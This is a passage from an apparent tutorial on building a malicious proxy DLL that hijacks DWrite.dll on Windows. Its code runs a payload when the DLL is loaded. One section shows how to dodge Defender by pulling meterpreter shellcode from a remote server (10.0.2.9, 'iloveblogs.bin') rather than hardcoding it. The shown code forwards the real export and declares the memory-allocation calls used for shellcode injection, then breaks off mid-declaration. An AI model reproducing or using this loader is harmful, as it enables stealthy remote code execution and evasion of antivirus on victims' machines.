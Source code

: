 ```cpp
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH:
            Payload();
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
* **Build in Visual Studio:** Load the template, add the shellcode, and build the DLL.
#### 4. Validate and Test the Malicious DLL
* **Disable Defender:** Test the DLL with Defender turned off.

* **Verify DLL Loading:**

   *Check procmon to ensure the custom DLL loads first.

   *Confirm the original DLL (DWrite.dll) loads afterward.
#### 5. Avoid Detection by Not Hardcoding Shellcode
* **Problem:** Defender detects hardcoded meterpreter shellcode.

* **Solution:** Load shellcode remotely from a server.

* **Code to Load Shellcode Remotely:**
```cpp
#pragma once
#include <winsock2.h>
#include <ws2tcpip.h>
#include <Windows.h>
#include <stdio.h>
#include <ios>
#include <fstream>

char ip[] = "10.0.2.9";
char port[] = "80";
char resource[] = "iloveblogs.bin";

#pragma comment(lib, "ntdll")
#pragma comment(linker, "/export:DWriteCreateFactory=C:\\Windows\\System32\\DWrite.DWriteCreateFactory,@1")
#pragma comment(lib, "Ws2_32.lib")
#pragma comment(lib, "Mswsock.lib")
#pragma comment(lib, "AdvApi32.lib")

#define NtCurrentProcess() ((HANDLE)-1)
#define DEFAULT_BUFLEN 4096

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

EXTERN_C NTSTATUS NtAllocateVirtualMemory(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

EXTERN_C NTSTATUS NtProtectVirtualMemory(
    IN HANDLE ProcessHandle,
```